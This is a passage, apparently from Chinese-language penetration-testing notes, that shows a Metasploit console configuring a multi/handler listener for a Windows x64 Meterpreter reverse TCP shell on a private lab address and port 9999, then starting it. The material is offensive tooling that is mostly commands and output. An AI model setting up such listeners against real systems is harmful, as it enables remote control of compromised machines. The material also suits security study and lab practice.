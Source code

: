 #### 监听

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specifi
                                     ed)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp                                                                                       
msf6 exploit(multi/handler) > set lhost 192.168.220.137
lhost => 192.168.220.137                                                                                                             
msf6 exploit(multi/handler) > set lport 9999
lport => 9999                                                                                                                        
msf6 exploit(multi/handler) > show options 
                                                                                                                                     
Module options (exploit/multi/handler):                                                                                              
                                                                                                                                     
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run
```